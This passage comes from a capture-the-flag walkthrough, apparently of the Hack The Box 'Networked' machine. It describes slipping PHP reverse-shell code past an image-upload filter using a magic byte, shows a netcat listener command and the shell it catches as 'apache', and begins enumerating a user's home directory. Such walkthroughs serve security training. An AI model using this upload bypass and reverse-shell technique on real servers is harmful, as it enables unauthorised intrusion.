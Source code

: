 After the magic byte, I pasted php-reverse-shell code.
Then, I was able to successfully upload it.

![](attachments/networked_6.png)

Then I opened a listener and fetch the `/photos.php` page.
Soon the listener spawned a shell.

```bash
┌──(kali㉿kali)-[~/htb/networked]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.146] 56518
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 21:34:11 up  9:27,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
sh-4.2$ whoami
whoami
apache
```

I got a shell as `apache`.



# Shell as `guly`

### Enumeration

There's a single normal user `guly` checking `/home` directory.
On its directory, there are some interesting files.

```bash
sh-4.2$ ls -al
ls -al
total 28
drwxr-xr-x. 2 guly guly 4096 Sep  6  2022 .
drwxr-xr-x. 3 root root   18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root    9 Sep  7  2022 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly   18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly  193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly  231 Oct 30  2018 .bashrc
-r--r--r--. 1 root root  782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root   44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly   33 Mar  9 12:07 user.txt
```
